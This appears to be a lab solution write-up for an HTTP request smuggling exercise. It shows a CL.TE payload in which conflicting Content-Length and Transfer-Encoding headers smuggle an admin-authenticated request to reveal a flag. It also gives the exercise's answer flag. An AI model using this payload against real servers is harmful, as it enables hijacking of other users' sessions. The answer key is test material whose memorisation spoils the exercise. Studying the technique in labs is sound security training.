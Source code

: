 ![[HTB Solutions/CWEE/z. images/379b58ce234370f43a3b7d076f4e0529_MD5.jpg]]

The admin will access the root webpage, most probably with a cookie value, as in the request:

Code: http

```http
GET / HTTP/1.1
Host: STMIP:STMPO
Cookie: sess=ADMIN_COOKIE_VALUE
```

From the perspective of the reverse proxy, which uses the `CL` header to determine the length of the first request such that it ends just after `DoesNotMatter: `, the TCP stream becomes to contain a POST request to `/` and a GET request to `/` by the admin user:

Code: http

```http
POST / HTTP/1.1
Host: STMIP:STMPO
Content-Length: 59
Transfer-Encoding: chunked

0

GET /admin.php?reveal_flag=1 HTTP/1.1
DoesNotMatter: GET / HTTP/1.1
Host: STMIP:STMPO
Cookie: sess=ADMIN_COOKIE_VALUE
```

However, from the perspective of the web server, which correctly uses the `chunked encoding`, it determines that the first request ends with the empty chunk; therefore, the TCP stream becomes to contain a POST request to `/`, in addition to a GET request to `/admin.php?reveal_flag=1` by the admin supplying their admin cookie. Due to the second GET request being authenticated (due to the session cookie of the admin being sent along in it), the GET request to `/admin.php?reveal_flag=1` succeeds.

After waiting for around 10 seconds and then accessing `http://STMIP:STMPO/admin.php`, students will notice that the admin has been forced into revealing the flag `HTB{6f8ed4c4a92b33a53094da44a12e5a64}`:

![[HTB Solutions/CWEE/z. images/92958eb0b6423dec887587a0cd306a23_MD5.jpg]]

Answer: `HTB{6f8ed4c4a92b33a53094da44a12e5a64}`

# TE.TE

## Question 1

### "Try to use what you learned in this section to exploit request smuggling to force the admin user to reveal the flag. The exploit is time-sensitive so you need to send your payload just before the admin accesses the page. Sending the request periodically about once every second should work. The admin accesses the page every 10 seconds."
